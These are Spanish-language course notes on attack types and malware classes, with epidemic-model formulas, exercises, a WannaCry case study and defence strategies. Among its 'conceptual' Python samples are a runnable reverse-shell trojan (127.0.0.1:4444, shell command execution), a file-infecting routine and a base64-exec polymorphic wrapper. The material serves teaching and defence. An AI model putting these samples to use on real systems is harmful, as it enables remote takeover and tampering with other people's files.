





# Criptografía y Seguridad - Seguridad en redes, cortafuegos y políticas

## 9.2 Tipos de ataque, tipos de software malicioso.

---

Los ataques informáticos y el software malicioso (malware) representan amenazas fundamentales a la seguridad de redes y sistemas. Esta guía explora las principales categorías de ataques y tipos de malware, sus características, métodos de propagación y contramedidas.

### Marco Conceptual de Amenazas



### Tipos de Ataques

#### 1. Ataques Pasivos

##### Interceptación (Eavesdropping)

Acceso no autorizado a información sin modificar los datos.

**Ejemplo:** Sniffing de red con herramientas como Wireshark

```python
# Ejemplo conceptual de sniffing (solo para fines educativos)
import socket

def packet_sniffer(interface='eth0', count=10):
    """
    Concepto de sniffing de paquetes
    En la práctica se usan librerías como scapy
    """
    # Crear socket raw
    try:
        s = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0003))
        s.bind((interface, 0))

        packets_captured = 0
        while packets_captured < count:
            packet = s.recvfrom(65565)
            data = packet[0]

            # Extraer cabecera Ethernet (primeros 14 bytes)
            eth_header = data[:14]
            print(f"Paquete {packets_captured + 1}: {len(data)} bytes")

            packets_captured += 1

    except PermissionError:
        print("Se requieren privilegios de administrador")
    finally:
        s.close()

# Nota: Este código requiere permisos de root
```

##### Análisis de Tráfico (Traffic Analysis)

Inferencia de información a partir de patrones de comunicación, sin necesariamente acceder al contenido.

**Métrica común:**
$$H(X) = -\sum_{i=1}^{n} P(x_i) \log_2 P(x_i)$$
Donde $H(X)$ es la entropía de la distribución de tráfico.

#### 2. Ataques Activos

##### Suplantación (Spoofing)

Suplantar la identidad de un usuario, sistema o dispositivo legítimo.

**Tipos:**

- IP Spoofing
- ARP Spoofing
- DNS Spoofing
- Email Spoofing

##### Ataques de Replay

Captura y retransmisión posterior de datos legítimos.

**Protección mediante nonces:**
$$Nonce = f(timestamp, clave\_secreta)$$

##### Denegación de Servicio (DoS/DDoS)



**Fórmula de tasa de ataque efectiva:**
$$R_{efectiva} = N \times A \times R_{base}$$
Donde:

- $N$: Número de bots
- $A$: Factor de amplificación
- $R_{base}$: Tasa base por bot

### Software Malicioso (Malware)

#### Taxonomía de Malware



#### 1. Virus Informáticos

Programa que se adjunta a un archivo legítimo y se replica al ejecutarse.

**Estructura básica:**

```python
# Ejemplo conceptual de virus (solo educativo)
import os
import sys

class ConceptualVirus:
    def __init__(self):
        self.signature = "VIRUS_EXAMPLE_123"
        self.infected_files = []

    def find_target_files(self, directory, extensions=['.py', '.txt']):
        """Busca archivos para infectar"""
        targets = []
        for root, dirs, files in os.walk(directory):
            for file in files:
                if any(file.endswith(ext) for ext in extensions):
                    targets.append(os.path.join(root, file))
        return targets

    def infect(self, filepath):
        """Concepto de infección (no ejecutable real)"""
        try:
            with open(filepath, 'r') as f:
                content = f.read()

            # Verificar si ya está infectado
            if self.signature not in content:
                # Añadir marca de infección
                infected_content = f"# INFECTED: {self.signature}\n{content}"

                with open(filepath, 'w') as f:
                    f.write(infected_content)

                self.infected_files.append(filepath)
                print(f"Archivo infectado: {filepath}")

        except Exception as e:
            print(f"Error infectando {filepath}: {e}")

# NOTA: Este es solo un ejemplo conceptual educativo
# No ejecutar en sistemas de producción
```

#### 2. Gusanos (Worms)

Se autoreplican a través de redes sin necesidad de archivo huésped.

**Modelo de propagación (Epidemiológico):**
$$\frac{dI(t)}{dt} = \beta \cdot S(t) \cdot I(t) - \gamma \cdot I(t)$$
Donde:

- $I(t)$: Sistemas infectados en tiempo $t$
- $S(t)$: Sistemas susceptibles
- $\beta$: Tasa de infección
- $\gamma$: Tasa de recuperación

#### 3. Troyanos

Software aparentemente legítimo que oculta funcionalidad maliciosa.

**Ejemplo de troyano simple:**

```python
# Ejemplo conceptual de troyano (educativo)
import socket
import subprocess
import os

class ConceptualTrojan:
    def __init__(self, host='127.0.0.1', port=4444):
        self.host = host
        self.port = port
        self.connection = None

    def connect(self):
        """Establece conexión reversa"""
        try:
            self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.connection.connect((self.host, self.port))
            return True
        except:
            return False

    def execute_command(self, command):
        """Ejecuta comando y devuelve resultado"""
        try:
            result = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
            return result.decode('utf-8', errors='ignore')
        except Exception as e:
            return str(e)

    def start(self):
        """Loop principal del troyano"""
        if self.connect():
            self.connection.send(b"[+] Conexion establecida\n")

            while True:
                # Recibir comando
                command = self.connection.recv(1024).decode().strip()

                if command.lower() == 'exit':
                    break

                # Ejecutar y enviar resultado
                output = self.execute_command(command)
                self.connection.send(output.encode())

        self.connection.close()

# NOTA: Ejemplo solo para fines educativos de ciberseguridad
```

#### 4. Ransomware

Cifra archivos y exige rescate para restaurarlos.

**Modelo de cifrado simétrico:**
$$C = E(K, P)$$
$$P = D(K, C)$$
Donde:

- $P$: Texto plano
- $C$: Texto cifrado
- $K$: Clave de cifrado
- $E$: Función de cifrado
- $D$: Función de descifrado

#### 5. Botnets

Red de sistemas comprometidos controlados por un atacante.

**Arquitectura típica:**



### Técnicas de Ofuscación y Evasión

#### Polimorfismo

El malware modifica su código en cada infección.

**Ejemplo conceptual:**

```python
import random
import base64

class PolymorphicEngine:
    def __init__(self):
        self.mutations = [
            self.add_nops,
            self.reorder_code,
            self.encrypt_payload
        ]

    def add_nops(self, code):
        """Añade instrucciones NOP aleatorias"""
        nop_instructions = ['# NOP\n', 'pass\n', 'time.sleep(0.001)\n']
        lines = code.split('\n')

        for i in range(len(lines)):
            if random.random() < 0.1:  # 10% de probabilidad
                lines[i] = random.choice(nop_instructions) + lines[i]

        return '\n'.join(lines)

    def encrypt_payload(self, code):
        """Codifica el payload en base64"""
        encoded = base64.b64encode(code.encode()).decode()
        return f"import base64\nexec(base64.b64decode('{encoded}'))"

    def mutate(self, code):
        """Aplica mutaciones aleatorias"""
        mutated = code
        for mutation in random.sample(self.mutations, random.randint(1, len(self.mutations))):
            mutated = mutation(mutated)
        return mutated
```

### Ejercicios Propuestos

#### Ejercicio 1: Análisis de Tasa de Infección

Un gusano se propaga en una red de 10,000 sistemas. Si la tasa de infección $(\beta)$ es 0.0002 y la tasa de recuperación $(\gamma)$ es 0.05:

1. Calcule el número básico de reproducción $R_0 = \frac{\beta \cdot N}{\gamma}$
2. Determine si la epidemia se propagará
3. Simule la propagación usando el modelo SIR:

   $$\frac{dS}{dt} = -\beta SI$$

   $$\frac{dI}{dt} = \beta SI - \gamma I$$

   $$\frac{dR}{dt} = \gamma I$$

#### Ejercicio 2: Detección de Anomalías en Tráfico

Implemente un detector de ataques DDoS basado en:

1. Tasa de paquetes por segundo: $\mu \pm 3\sigma$
2. Entropía de direcciones IP: $H(IP) < threshold$
3. Ratio SYN/ACK anormal

#### Ejercicio 3: Análisis de Firmas de Malware

Diseñe firmas YARA para detectar:

1. Comportamiento de ransomware (búsqueda de extensiones específicas)
2. Comunicación C&C (patrones de dominio)
3. Técnicas de ofuscación (uso de eval, base64)

### Técnicas de Defensa

#### Estrategias Multinivel:

| Capa         | Técnica                  | Ejemplo                  |
| ------------ | ------------------------ | ------------------------ |
| Prevención   | Firewalls, Hardening     | iptables, CIS Benchmarks |
| Detección    | IDS/IPS, Antivirus       | Snort, ClamAV            |
| Contención   | Sandboxing, Segmentación | Docker, VLANs            |
| Recuperación | Backups, Snapshots       | Rsync, Veeam             |

#### Modelo de Madurez de Defensa:



### Caso de Estudio: WannaCry Ransomware

**Características principales:**

1. Vector inicial: EternalBlue exploit (SMBv1)
2. Propagación: Worm component via DoublePulsar
3. Cifrado: RSA-2048 + AES-128
4. Rescate: Bitcoin payments

**Ecuación de propagación estimada:**

$$I(t) = I_0 \cdot e^{(\beta - \gamma)t}$$

Donde $\beta \approx 0.8$ por hora inicialmente.

### Referencias Bibliográficas

#### Bibliografía Básica:

1. **Stallings, William** (2010). _Cryptography and Network Security: Principles and Practice_, 5a Ed.
   - Capítulo 6: "Malicious Software"
   - Capítulo 7: "Denial-of-Service Attacks"

2. **Forouzan, Behrouz A.** (2008). _Cryptography and Network Security_
   - Capítulo 29: "Malware"
   - Capítulo 30: "Network Attacks"

3. **Pfleeger, C.P. & Pfleeger, S.L.** (2006). _Security in Computing_, 4a Ed.
   - Capítulo 3: "Program Security"
   - Capítulo 4: "Protection in General-Purpose Systems"

#### Bibliografía Complementaria:

1. **Stallings, William** (2010). _Network Security Essentials_
   - Capítulo 6: "Malicious Software"

2. **Ferguson, N.; Schneier, B.; Kohno, T.** (2010). _Cryptography Engineering_
   - Capítulo 21: "Implementation Issues"

3. **Menezes, A.; van Oorschot, P.; Vanstone, S.** (1996). _Handbook of Applied Cryptography_
   - Capítulo 13: "Key Management Techniques"

### Laboratorio Virtual

#### Ejercicio Práctico 1: Análisis de PCAP

1. Descargar captura de tráfico malicioso
2. Identificar patrones de:
   - Scanning de puertos
   - Exploit delivery
   - C&C communication
   - Data exfiltration

#### Ejercicio Práctico 2: Análisis Estático de Malware

Usar herramientas como:

- `strings`, `file`, `binwalk`
- `radare2` o `Ghidra` para análisis
- `YARA` para detección

#### Ejercicio Práctico 3: Sandbox Analysis

Configurar ambiente aislado:

1. Máquina virtual aislada
2. Herramientas de monitoreo (Process Monitor, Wireshark)
3. Análisis dinámico del comportamiento

### Evaluación de Conocimientos

#### Preguntas Teóricas:

1. Compare virus, gusanos y troyanos en términos de propagación y ejecución
2. Explique el modelo epidemiológico SIR aplicado a malware
3. Describa tres técnicas de evasión usadas por malware moderno
4. ¿Cómo funcionan los ataques de amplificación DDoS?
5. Explique la diferencia entre ransomware y scareware

#### Problemas Prácticos:

1. Calcule la tasa de crecimiento de una botnet de 1,000 zombies que atacan a 10,000 víctimas
2. Diseñe un diagrama de flujo para detectar comportamiento de ransomware
3. Proponga un sistema de defensa en profundidad para una red corporativa

#### Proyecto Final:

Diseñar e implementar un sistema de detección que:

1. Analice tráfico de red en busca de patrones de malware
2. Use técnicas de machine learning para clasificación
3. Genere alertas con nivel de confianza
4. Proporcione estadísticas de amenazas detectadas

**Nota de Seguridad:** Todos los ejemplos de código proporcionados son CONCEPTUALES y para FINES EDUCATIVOS únicamente. No deben ejecutarse en sistemas de producción o sin el debido aislamiento en laboratorios controlados. El estudio de técnicas ofensivas debe realizarse siempre en entornos legales y éticos, con autorización explícita.
